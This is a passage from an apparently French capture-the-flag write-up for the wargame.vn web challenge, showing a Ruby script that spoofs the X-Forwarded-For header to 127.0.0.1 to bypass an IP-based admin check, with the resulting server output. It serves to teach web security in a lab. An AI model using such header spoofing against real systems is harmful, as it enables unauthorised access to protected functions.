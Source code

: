 
    techbrunch@yop:~/562394 $ ruby level4.rb
    <!-- if($_SERVER['HTTP_1337']=='1337') -->
    Array
    (
        [HTTP_1337] => 1337
        [...] => ...
        [REQUEST_TIME] => 1374854625
    )
    <h1>Ops!</h1><!-- level_$5.php -->
    techbrunch@yop:~/562394 $

## Level5

Cette fois ci il semblerait qu'un filtrage soit effectué en fonction de l'adresse ip:

{% highlight %}

Array
(
    [HTTP_HOST] => challenges.wargame.vn:1337
    [...] => ...
    [REQUEST_TIME] => 1374854684
)
<br /><br />Your IP: <strong>96.29.172.198</strong><br />You're not an admin! Get out X-(
{% endhighlight %}

Le script semble reposer sur les header http pour récupéré l'adresse ip. On va donc ajouté un header `X_FORWARDED_FOR` pour faire croire au script que notre adresse ip est `127.0.0.1`.

{% highlight ruby %}
require 'uri'
require 'net/http'
 
uri = URI("http://challenges.wargame.vn:1337");
http = Net::HTTP.new(uri.host, uri.port)
headers = {
    'X_FORWARDED_FOR' => '127.0.0.1'
}
 
puts http.get('http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/level_$5.php', headers).body
{% endhighlight %}

    techbrunch@yop:~/562394 $ ruby level5.rb
    <!-- if($ip="127.0.0.1") flag(); -->
    Array
    (
        [HTTP_X_FORWARDED_FOR] => 127.0.0.1
        [...] => ...
        [REQUEST_TIME] => 1374854949
    )
    <br /><br />Your IP: <strong>127.0.0.1</strong><br /><h1>Ops!</h1><!-- lev3l_$6_.php -->
    techbrunch@yop:~/562394 $


[^1]: [SMS Text Message Decoder](http://www.dbcovers.com/image-of-half-nelson-2006-half_nelson_2006_1)